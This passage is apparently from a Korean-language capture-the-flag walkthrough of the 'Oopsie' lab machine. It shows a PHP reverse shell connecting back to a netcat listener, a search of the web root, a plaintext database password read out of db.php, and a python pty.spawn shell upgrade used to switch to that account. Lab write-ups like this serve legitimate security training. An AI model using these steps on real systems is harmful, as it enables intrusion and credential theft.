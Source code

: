 nc 업로드하여 리버스쉘을 맺으려 했지만, 헹 걸린 상태에서 동작하지 않아 [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)을 받아서 업로드하였다. 각 ip port를 수정 후 실행하면 아래와 같이 쉘 연결에 성공한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.208.241: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.208.241] 56738
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:30:45 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

동작 중인 프로세스를 보면 mysql이 있는 것을 확인할 수 있다. 관련 정보를 찾아보면 어떨까 싶다.
``` bash
mysql     1417     1  0 03:48 ?        00:00:01 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
```

/etc/mysql 하위 경로에는 별 다른 중요 정보가 존재하지 않기에, 웹 서비스 경로에서 주요 파일이 있는지 찾아보고자 했다. 아래와 같이 index.php를 기준으로 서칭했으며 두 경로가 나온다. 
``` bash
$ find / -name 'index.php'
/var/www/html/index.php
/var/www/html/cdn-cgi/login/index.php
```

/cdn-cgi/login 경로를 보면 db 접속 정보로 추정되는 값을 획득 할 수 있다.
``` bash
$ ls /var/www/html/cdn-cgi/login
admin.php
db.php
index.php
script.js

$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

su 명령어를 통해 획득한 계정으로 변경 시도 시 'su: must be run from a terminal' 와 같은 에러를 만나게 된다. 해당 오류의 경우 아래와 같이 python을 통해 해결 가능하다. 찾아본 결과 su 명령어는 터미널에서만 가능하기에 아래와 같이 python으로 연결해주어야 한다.
``` bash
$ su robert
su: must be run from a terminal

$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$
```
